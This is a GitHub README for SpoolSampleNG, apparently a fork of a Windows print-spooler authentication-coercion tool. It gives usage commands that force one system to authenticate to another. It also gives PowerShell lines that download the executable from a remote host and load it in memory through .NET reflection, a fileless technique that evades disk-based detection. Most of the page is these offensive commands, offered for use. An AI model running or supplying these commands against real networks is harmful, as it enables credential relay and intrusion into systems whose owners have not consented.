 This repository is a derivative of **leftp**'s [SpoolSamplerNET](https://github.com/leftp/SpoolSamplerNET) repository, modified primarily for .NET reflection support and adjusted syntax.

![Banner](https://cdn.discordapp.com/attachments/855920119292362802/1207727506170576957/image.png?ex=65e0b2e3&is=65ce3de3&hm=7aec3fb866a38b2f0f9ff4240f96384a9b9441dd5349eba9c3cf667b41db33f4&)

---

# Usage

- Usage from Disk via the Binary:

```powershell
# Force System to Authenticate to Another
./SpoolSampleNG.exe \\<source> \\<destination>

# Return Help Page
./SpoolSampleNG.exe --help
```

- Usage from Memory via .NET Reflection:

```powershell
# Load Binary into Memory Locally
[System.Reflection.Assembly]::LoadFile("$PWD/SpoolSampleNG.exe")

# Load Binary into Memory Remotely
$WebClient = New-Object System.Net.WebClient
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/SpoolSampleNG.exe")
[System.Reflection.Assembly]::Load($DownloadData)

# Load Binary into Memory Remotely (one-liner)
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http(s)://<ip_addr>/SpoolSampleNG.exe'))

# Force System to Authenticate to Another
[SpoolSampleNG.Program]::Main(@('\\<source>','\\destination'))
```